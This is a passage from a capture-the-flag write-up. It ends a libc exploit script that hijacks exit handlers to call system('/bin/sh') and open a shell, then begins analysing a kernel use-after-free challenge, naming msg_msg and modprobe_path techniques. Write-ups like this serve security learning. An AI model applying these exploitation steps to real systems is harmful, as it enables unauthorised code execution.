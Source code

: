 ```py
p.sendline(str(rol(libc.sym.system ^ ptr_guard, 0x11, 64)).encode())

p.sendline(b"3")
p.sendline(str(exit_funcs_arg_0).encode())
p.sendline(str(next(libc.search(b"/bin/sh\0"))).encode())

p.sendline(b"3")
p.sendline(str(exit_funcs_arg_1).encode())
p.sendline(b"0")

p.interactive()
```

![Flag](/images/posts/lnc-2024/lucky-plaza.png)

# Cheminventory

> Storing explosive chemicals in the kernel is a wonderful idea! Surely nothing can go wrong...right?
> 
> Author: Kaligula

[Source](https://github.com/Lag-and-Crash/2024/tree/main/challenges/pwn/Cheminventory)

This was my favourite challenge in the entire CTF because it's kernel pwn. I didn't solve it during the CTF sadly, but I
got until past cross-cache (with `msg_msg` in my UAF object). I didn't know enough kernel pwn tricks to proceed after
that, and was looking for some arb write with `msgmsg_seg` and race condition to overwrite `modprobe_path` (after
checking, the kernel disables `mobprobe_path` technique so it wouldn't work anyway).

Also, this is my first time doing kernel pwn, so I'll try to be super detailed in my writeup here :)

## Analysis

Initially, source wasn't given out and I had a hard time reversing the module, cos of a few weird artifacts in the
decompilation. After source was released, I quickly found the UAF bug. The full source is available in the repo, I'll
just analyse the important bits here.

### DO_CREATE

```c
case DO_CREATE: {           
    if (user_data.note_size > 100 || user_data.note_size == 0) {
        pr_info("A chemical explosion occurred. Oh no!\n");
        mutex_unlock(&chem_mutex);
        return -1;
    }
    
    chem = kmalloc(sizeof(struct chemical), GFP_KERNEL); 
    
    // Quantity
        chem->quantity = user_data.quantity;
    
    // CAS
        chem->cas = user_data.cas;
    
    // idx
        chem->idx = chemical_count; 
    chemical_count = chemical_count +1;
```
